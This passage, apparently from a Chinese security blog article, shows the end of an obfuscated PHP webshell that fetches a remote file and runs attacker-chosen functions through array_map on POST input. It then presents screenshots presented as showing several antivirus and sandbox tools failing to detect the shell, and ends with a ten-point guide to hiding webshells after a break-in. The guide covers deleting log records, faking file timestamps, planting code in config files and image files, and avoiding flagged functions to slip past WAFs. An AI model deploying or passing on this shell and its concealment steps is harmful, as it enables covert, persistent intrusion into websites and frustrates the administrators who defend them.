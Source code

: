 ```
    return $as;
}
$a = $_POST['x'];
$s  = downloadFile('http://www.baidu.com/asdaesfrtafga.txt',$a);
$b = $s[0];
$c = $s[1];
array_map($b,array($c));

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqDjaibfs87PbEE7omzN7icZicpRcuqyh1WWLW9L1MPQO7ricR2bRjPKAxZw/640?wx_fmt=jpeg)

再试试其他免杀工具

WebShellKiller：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqqMtPuTf5LMusK6ic5QvNGp6V66fvk4QtY62zd3VpG2avnF8xCl1jHqQ/640?wx_fmt=jpeg)

安全狗：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqKDptg7sJCiaXtgocVAFputKhMZnQaIt9TpFLABAkdAWtxBPeESNNFWg/640?wx_fmt=jpeg)

微步云沙箱

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqx1ntibp0WV4eTav4kDHVjpkyGvaQmMXf4IuU6QbNlVjSrYKCkaXjwew/640?wx_fmt=jpeg)

再试试可不可以连接没有问题，完美！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqP9sdqyHtES80KyxIwGpGUciaWpIOribJCvsYenQZvHZHOagcRtzXWwXQ/640?wx_fmt=jpeg)

更好的隐藏 webshell 一些建议
-------------------

1、拿到权限以后, 把网站日志中的所有关于 webshell 的访问记录和渗透时造成的一些网站报错记录全部删除

2、把 webshell 的属性时间改为和同目录文件相同的时间戳, 比如 linux 中的 touch 就是非常好的工具

3、目录层级越深越好, 平时网站不出问题的话, 一般四五级目录很少会被注意到, 尽量藏在那些程序员和管理员都不会经常光顾的目录中比如: 第三方工具的一些插件目录, 主题目录, 编辑器的图片目录以及一些临时目录

4、利用 php.ini 配置文件隐藏 webshell, 把 webshell 的路径加入到配置文件中

5、尝试利用静态文件隐藏一句话, 然后用. htaccess 规则进行解析

6、上传个精心构造的图片马, 然后再到另一个不起眼的正常的网站脚本文件中去包含这个图片马

7、靠谱的方法就是直接把一句话插到正常的网站脚本文件里面, 当然最好是在一个不起眼的地方, 比如: 函数库文件, 配置文件里面等等, 以及那些不需要经常改动的文件……

8、如果有可能的话, 还是审计下目标的代码, 然后想办法在正常的代码中构造执行我们自己的 webshell, 即在原生代码中执行 webshell

9、webshell 里面尽量不要用类似 eval 这种过于敏感的特征, 因为 awk 一句话就能查出来, 除了 eval, 还有, 比如: exec,system,passthru,shell_exec,assert 这些函数都最好不要用, 你可以尝试写个自定义函数, 不仅能在一定程度上延长 webshell 的存活时间也加大了管理员的查找难度, 也可以躲避一些功能比较简陋 waf 查杀, 此外, 我们也可以使用一些类似: call_user_func,call_user_func_array, 诸如此类的回调函数特性来构造我们的 webshell, 即伪造正常的函数调用

10、webshell 的名字千万不要太扎眼, 比如: hack.php,sb.php,x.php 这样的名字严禁出现……, 在给 webshell 起名的时候尽量跟当前目录的, 其他文件的名字相似度高一点, 这样相对容易混淆视听, 比如: 目录中有个叫 new.php 的文件, 那你就起个 news.php
